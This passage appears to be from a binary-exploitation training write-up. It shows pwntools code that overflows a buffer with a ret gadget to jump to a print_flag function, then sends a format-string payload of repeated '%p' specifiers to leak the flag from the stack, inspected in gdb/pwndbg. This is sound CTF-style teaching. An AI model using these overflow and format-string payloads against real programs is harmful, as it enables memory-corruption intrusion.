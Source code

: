 ```py
p.interactive()
```

If you note there, I have added a ret instruction inbetween the print_flag function and rbp. This is to ensure stack alignment issues dont happen.

Ok now set a break point right at the printf function in the print_flag function. To do that change the main to the address of printf in the gdbscript. Running your script in vim is very easy. 

```vim
ESC, :w | !./% GDB NOASLR
```
In the above command we are writing the script with w, running a bash command with ! and excecuting the file ./%. % -> represents the current file. GDB NOASLR -> attachs gdb with ASLR disabled.

```py
p = start()
p.recvline()
p.send(b"A"*(0x60+8) + p64(0x401016)  +  p64(elf.sym['print_flag']) )
p.recvline()
p.sendline("%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-")
p.interactive()
```

After playing a little bit with gdb and format strings you will know that most of the stuff thats leaked is from the stack. Now you can also inspect the stack in gdb pwndbg with ``stack 20``. Wait a minute!! Do you see there is an address in stack that contains all the contents of our flag file ? Yes when you read and store a file, its contents will be stored on the stack.

![](/assets/images/pwntraining2/pwntrain5.png)

Also in the leaked values we can see that our flag address is also leaked.

![](/assets/images/pwntraining2/pwntrain6.png)
